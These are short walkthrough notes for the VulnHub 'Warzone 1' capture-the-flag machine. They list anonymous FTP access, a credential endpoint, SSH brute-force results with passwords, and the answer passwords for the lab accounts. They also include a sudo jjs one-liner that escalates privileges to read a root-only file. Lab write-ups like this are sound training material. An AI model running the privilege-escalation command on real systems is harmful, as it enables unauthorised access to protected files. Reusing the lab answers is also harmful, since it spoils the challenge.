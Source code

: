 - URL: ```https://www.vulnhub.com/entry/warzone-1,589/```

- ftp anonymous
- /console
- GET·AUTH·CREDENTIALS
- http://192.168.0.110:5000/get/auth/credentials
- [22][ssh] host: 192.168.0.110   login: commando   password: c0mmandosArentRea1.!
- captain/Desktop
- captain password: ```_us3rz0ne_F1RE```
- sudo -l: jjs - read /root/.../.c
```echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/Desktop/.crypt/.c"));
while ((line = br.readLine()) != null) { print(line); }' | sudo jjs```
- b'c2MAArI9HzodWZVdjp8CL5Na/YetD8mpGmOR+zf0zmGeDy7KMsJ5YE3wNPSr4vCc5sV8w+BHq9yd5JHwGPKSuHClFqBUvhf/dSFUEKm9kG7/mPMPYg=='
- root password: ```#i.d0nt.l1ke.w4r#```

